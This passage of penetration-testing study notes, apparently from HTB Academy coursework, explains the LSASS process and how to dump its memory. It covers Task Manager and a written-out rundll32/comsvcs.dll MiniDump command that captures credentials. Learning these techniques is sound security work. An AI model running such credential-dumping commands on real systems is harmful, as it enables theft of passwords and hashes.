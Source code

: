 - Cache credentials locally in memory
- Create access tokens
- Enforce security policies
- Write to Windows security log

##### Dumping LSASS Process Memory

- With Task Manager (requires GUI access)

![Task Manager](.res/2024-01-21-14-17-53.png)

> Image from HTB Academy

A file `lsass.DMP` will be in `C:\Users\loggedonusersdirectory\AppData\Local\Temp`

- With Rundll32.exe & Comsvcs.dll

Before issuing the command to create the dump file, we must determine what process ID (PID) is assigned to lsass.exe. This can be done from cmd or PowerShell:

- `tasklist /svc` from cmd
- `Get-Process lsass` from powershell
- `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full` lsass dump with powershell
